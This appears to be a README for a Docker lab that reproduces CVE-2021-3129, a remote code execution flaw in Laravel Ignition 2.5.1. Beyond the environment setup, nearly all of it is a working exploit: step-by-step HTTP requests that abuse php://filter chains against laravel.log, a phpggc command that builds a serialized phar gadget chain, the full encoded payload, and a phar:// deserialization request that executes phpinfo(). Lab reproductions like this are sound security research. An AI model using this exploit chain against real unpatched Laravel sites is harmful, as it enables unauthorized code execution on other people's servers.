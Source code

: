 # Laravel Ignition 2.5.1 Remote Code Execution (CVE-2021-3129)

[中文版本(Chinese version)](README.zh-cn.md)

Laravel is a free, open-source PHP web framework created by Taylor Otwell. Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

Reference links:

- https://www.ambionics.io/blog/laravel-debug-rce
- https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g

## Environment Setup

Execute the following command to start an application running Laravel 8.4.2 and Ignition 2.5.1:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to see Laravel's default welcome page.

## Vulnerability Reproduce

First, we send the following request. If an Ignition error page appears, it indicates that the vulnerability exists and debug mode is enabled:

![](1.png)

Then, we follow these steps to reproduce the vulnerability:

1, Send the following request to clear the original log file:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

2, Generate a serialized POC using [phpggc](https://github.com/ambionics/phpggc):

```
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```

3, Send the following request to add a prefix to the Log:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 163

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "AA"
  }
}
```

4, Send the request with POC as viewFile value:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 5058

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=6F=00=66=00=41=00=67=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=44=00=49=00=41=00=51=00=41=00=41=00=54=00=7A=00=6F=00=30=00=4D=00=44=00=6F=00=69=00=53=00=57=00=78=00=73=00=64=00=57=00=31=00=70=00=62=00=6D=00=46=00=30=00=5A=00=56=00=78=00=43=00=63=00=6D=00=39=00=68=00=5A=00=47=00=4E=00=68=00=63=00=33=00=52=00=70=00=62=00=6D=00=64=00=63=00=55=00=47=00=56=00=75=00=5A=00=47=00=6C=00=75=00=5A=00=30=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=43=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6C=00=64=00=6D=00=56=00=75=00=64=00=48=00=4D=00=69=00=4F=00=30=00=38=00=36=00=4D=00=6A=00=55=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=51=00=6E=00=56=00=7A=00=58=00=45=00=52=00=70=00=63=00=33=00=42=00=68=00=64=00=47=00=4E=00=6F=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4D=00=54=00=59=00=36=00=49=00=67=00=41=00=71=00=41=00=48=00=46=00=31=00=5A=00=58=00=56=00=6C=00=55=00=6D=00=56=00=7A=00=62=00=32=00=78=00=32=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=30=00=38=00=36=00=4D=00=6A=00=55=00=36=00=49=00=6B=00=31=00=76=00=59=00=32=00=74=00=6C=00=63=00=6E=00=6C=00=63=00=54=00=47=00=39=00=68=00=5A=00=47=00=56=00=79=00=58=00=45=00=56=00=32=00=59=00=57=00=78=00=4D=00=62=00=32=00=46=00=6B=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=41=00=36=00=65=00=33=00=31=00=70=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=73=00=62=00=32=00=46=00=6B=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=5A=00=58=00=5A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=67=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=51=00=6E=00=4A=00=76=00=59=00=57=00=52=00=6A=00=59=00=58=00=4E=00=30=00=61=00=57=00=35=00=6E=00=58=00=45=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=45=00=56=00=32=00=5A=00=57=00=35=00=30=00=49=00=6A=00=6F=00=78=00=4F=00=6E=00=74=00=7A=00=4F=00=6A=00=45=00=77=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=35=00=75=00=5A=00=57=00=4E=00=30=00=61=00=57=00=39=00=75=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=4D=00=79=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=4E=00=72=00=5A=00=58=00=4A=00=35=00=58=00=45=00=64=00=6C=00=62=00=6D=00=56=00=79=00=59=00=58=00=52=00=76=00=63=00=6C=00=78=00=4E=00=62=00=32=00=4E=00=72=00=52=00=47=00=56=00=6D=00=61=00=57=00=35=00=70=00=64=00=47=00=6C=00=76=00=62=00=69=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6A=00=62=00=32=00=35=00=6D=00=61=00=57=00=63=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=55=00=36=00=49=00=6B=00=31=00=76=00=59=00=32=00=74=00=6C=00=63=00=6E=00=6C=00=63=00=52=00=32=00=56=00=75=00=5A=00=58=00=4A=00=68=00=64=00=47=00=39=00=79=00=58=00=45=00=31=00=76=00=59=00=32=00=74=00=44=00=62=00=32=00=35=00=6D=00=61=00=57=00=64=00=31=00=63=00=6D=00=46=00=30=00=61=00=57=00=39=00=75=00=49=00=6A=00=6F=00=78=00=4F=00=6E=00=74=00=7A=00=4F=00=6A=00=63=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=35=00=68=00=62=00=57=00=55=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=59=00=57=00=4A=00=6A=00=5A=00=47=00=56=00=6D=00=5A=00=79=00=49=00=37=00=66=00=58=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=32=00=39=00=6B=00=5A=00=53=00=49=00=37=00=63=00=7A=00=6F=00=79=00=4E=00=54=00=6F=00=69=00=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=63=00=47=00=68=00=77=00=61=00=57=00=35=00=6D=00=62=00=79=00=67=00=70=00=4F=00=79=00=42=00=6C=00=65=00=47=00=6C=00=30=00=4F=00=79=00=41=00=2F=00=50=00=69=00=49=00=37=00=66=00=58=00=31=00=39=00=42=00=51=00=41=00=41=00=41=00=47=00=52=00=31=00=62=00=57=00=31=00=35=00=42=00=41=00=41=00=41=00=41=00=4C=00=71=00=2F=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4C=00=59=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=51=00=75=00=64=00=48=00=68=00=30=00=42=00=41=00=41=00=41=00=41=00=4C=00=71=00=2F=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4C=00=59=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=64=00=47=00=56=00=7A=00=64=00=48=00=52=00=6C=00=63=00=33=00=52=00=64=00=30=00=6B=00=2F=00=31=00=70=00=52=00=49=00=71=00=57=00=72=00=36=00=77=00=46=00=6C=00=38=00=30=00=4D=00=2B=00=48=00=4B=00=2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00"
  }
}
```

5, Send the following request to clean up the Log file:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 299

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

This step may encounter exceptions, resulting in failure to properly clean up the Log file. If this happens, you can try again from step 1.

6, Use `phar://` for deserialization to execute arbitrary code:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}
```

Note that an absolute path must be used at this point.

As you can see, PHPINFO has been successfully executed:

![](2.png)

